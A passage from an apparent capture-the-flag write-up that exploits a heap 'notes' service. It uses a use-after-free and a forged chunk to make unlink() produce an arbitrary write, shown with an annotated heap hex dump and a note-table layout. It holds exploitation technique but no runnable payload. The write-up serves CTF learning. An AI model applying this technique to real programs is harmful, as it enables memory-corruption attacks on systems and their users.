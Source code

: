 So far we know where the .heap starts. What we need also is an arbitrary write primitive. To
do that we create a fake chunk and we free it, in order to make unlink() write an abritrary
pointer in the note table.

Before we do anything, we clear any notes left from the leaking step. First we create 4  
notes of 128 bytes each (call them A, B, C and D). Then, we delete notes B and C and we
create a new note E of size 256. Due to the first fit algorithm, note E will be stored
where notes B and C were.

If we free note C again (its pointer is still in note table), then free() will process a
chunk's header which is within E and it's under our control. The heap layout before
final free() will be:

```
note_tbl:	01154010  00 01 00 00 00 00 00 00  03 00 00 00 00 00 00 00
			01154020  01 00 00 00 00 00 00 00  80 00 00 00 00 00 00 00
			01154030  30 58 15 01 00 00 00 00  01 00 00 00 00 00 00 00
			01154040  00 01 00 00 00 00 00 00  C0 58 15 01 00 00 00 00
			01154050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
			01154060  50 59 15 01 00 00 00 00  01 00 00 00 00 00 00 00
			01154070  80 00 00 00 00 00 00 00  E0 59 15 01 00 00 00 00
			01154080  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
			01154090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
			........
			01155820  00 00 00 00 00 00 00 00  91 00 00 00 00 00 00 00
note A:		01155830  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
			........  [More A's]
			011558A0  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 0A
			011558B0  90 00 00 00 00 00 00 00  21 01 00 00 00 00 00 00
note E:		011558C0  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45
(old B)		........  [More E's]
			01155930  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45
			01155940  60 FF FF FF FF FF FF FF  90 00 00 00 00 00 00 00
note C:		01155950  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45
			........  [More E's]
			011559B0  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 0A
			011559C0  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 0A
			011559D0  20 01 00 00 00 00 00 00  91 00 00 00 00 00 00 00
note D:		011559E0  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44
			011559F0  60 40 15 01 00 00 00 00  68 40 15 01 00 00 00 00
			01155A00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
			01155A10  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44
			01155A20  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44
			01155A30  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44
			01155A40  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44
			01155A50  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 0A
			01155A60  00 00 00 00 00 00 00 00  A1 05 02 00 00 00 00 00
			........  [Wilderness chunk]
```

Note table has the following entries:
```
	+-----------+-------+---------+-------+-----------+
	| base_addr | index | is_used | size  |  pointer  |
	+-----------+-------+---------+-------+-----------+
	| 0x1154020 |   0   |    1    | 0x80  | 0x1155830 |		(note A)
	+-----------+-------+---------+-------+-----------+
	| 0x1154038 |   1   |    1    | 0x100 | 0x11558c0 |		(note E)
	+-----------+-------+---------+-------+-----------+
	| 0x1154050 |   2   |    0    | 0x00  | 0x1155950 |		(note C) -> UAF
	+-----------+-------+---------+-------+-----------+
	| 0x1154068 |   3   |    1    | 0x80  | 0x11559E0 |		(note D)
	+-----------+-------+---------+-------+-----------+
```
